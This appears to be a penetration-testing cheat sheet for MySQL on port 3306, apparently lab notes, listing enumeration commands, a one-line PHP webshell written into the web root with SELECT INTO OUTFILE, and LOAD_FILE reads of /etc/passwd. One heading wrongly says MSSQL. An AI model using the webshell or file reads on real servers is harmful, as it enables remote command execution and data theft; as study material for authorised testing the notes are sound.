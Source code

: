# 3306 - Mysql

## Enumeration

| Command                                                  | Description                |
| -------------------------------------------------------- | -------------------------- |
| `mysql -u <user> -p<password> -h <FQDN/IP>`              | Login to the MySQL server. |
| `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*` | Nmap MySQL enumeration     |

| `mysql> SHOW DATABASES;`      | Show all available databases in MySQL.                        |
| ----------------------------- | ------------------------------------------------------------- |
| `mysql> USE htbusers;`        | Select a specific database in MySQL.                          |
| `mysql> SHOW TABLES;`         | Show all available tables in the selected database in MySQL.  |
| `mysql> SELECT * FROM users;` | Select all available entries from the “users” table in MySQL. |

## Create PHP webshell using MySQL&#x20;

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'
```

## Check if the the secure file privileges are empty to read locally stored files on the system.

```
show variables like "secure_file_priv";
```

## Read local files in MSSQL

```
select LOAD_FILE("/etc/passwd");
```
